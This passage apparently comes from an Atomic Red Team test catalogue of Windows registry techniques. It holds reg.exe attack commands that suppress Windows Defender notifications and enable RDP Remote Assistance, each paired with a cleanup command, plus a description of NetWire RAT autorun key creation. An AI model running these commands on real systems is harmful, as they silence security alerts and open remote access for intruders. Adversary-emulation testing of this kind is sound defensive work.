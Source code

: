
```cmd
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\UX Configuration" /v Notification_Suppress /t REG_DWORD /d 1 /f
```

#### Cleanup Commands:
```cmd
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\UX Configuration" /v Notification_Suppress /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #39 - Allow RDP Remote Assistance Feature
Modify the registry of the currently logged in user using reg.exe via cmd console to allow rdp remote assistance feature. This feature allow specific
user to rdp connect on the targeted machine.
See how azorult malware abuses this technique- https://app.any.run/tasks/a6f2ffe2-e6e2-4396-ae2e-04ea0143f2d8/

**Supported Platforms:** Windows


**auto_generated_guid:** 86677d0e-0b5e-4a2b-b302-454175f9aa9e






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f
```

#### Cleanup Commands:
```cmd
reg delete "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #40 - NetWire RAT Registry Key Creation
NetWire continues to create its home key (HKCU\SOFTWARE\NetWire) as well as adding it into the auto-run group in the victim’s registry.
See how NetWire malware - https://app.any.run/tasks/41ecdbde-4997-4301-a350-0270448b4c8f/
